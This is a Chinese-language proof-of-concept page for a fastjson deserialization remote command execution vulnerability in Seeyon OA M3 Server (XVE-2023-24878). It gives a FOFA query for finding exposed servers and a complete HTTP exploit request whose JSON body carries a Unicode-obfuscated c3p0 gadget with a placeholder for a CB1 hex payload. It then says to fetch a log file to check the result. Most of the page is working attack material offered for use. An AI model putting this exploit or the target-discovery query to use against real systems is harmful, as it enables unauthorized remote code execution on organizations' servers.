 
## 致远OA M3 Server 反序列化漏洞
致远 M3 反序列化 远程命令执行漏洞（XVE-2023-24878）
漏洞信息：
https://x.threatbook.com/v5/vul/6bf25402a41b4fc27497a5b42a8421d7ef38d57cb7d8143dedb9a6f438310a2d9e083c39c56fee2571651827b4d9ce8d



## fofa
```
"M3-Server 已启动"
```

根据群友说，这个漏洞是fastjson反序列化

利用 CB1 生成 hex 反序列化数据，替换 POC 中的 HEX

## poc
```
POST /mobile_portal/api/pns/message/send/batch/6_1sp1 HTTP/1.1
Host: User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_82116c626a8d504a5c0675073362ef6f=1666334057
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Content-Type: application/json
Content-Length: 3680

[{"userMessageId":"{\"@\u0074\u0079\u0070\u0065\":\"\u0063\u006f\u006d\u002e\u006d\u0063\u0068\u0061\u006e\u0067\u0065\u002e\u0076\u0032\u002e\u0063\u0033\u0070\u0030\u002e\u0057\u0072\u0061\u0070\u0070\u0065\u0072\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\",\"\u0075\u0073\u0065\u0072\u004f\u0076\u0065\u0072\u0072\u0069\u0064\u0065\u0073\u0041\u0073\u0053\u0074\u0072\u0069\u006e\u0067\":\"\u0048\u0065\u0078\u0041\u0073\u0063\u0069\u0069\u0053\u0065\u0072\u0069\u0061\u006c\u0069\u007a\u0065\u0064\u004d\u0061\u0070:HEX;\"}|","channelId":"111","title":"111","content":"222","deviceType":"androidphone","serviceProvider":"baidu","deviceFirm":"other"}]
```
然后在访问 然后再 Get 访问/mobile_portal/api/systemLog/pns/loadLog/app.log

![ef21d114d1965815537db98570d2daf7](https://github.com/wy876/POC/assets/139549762/b3609c72-0516-4c69-a64f-62c86fffb30d)

## 漏洞分析
```
https://mp.weixin.qq.com/s/czbhaf7jpNmgjAt-OFWmIA
```
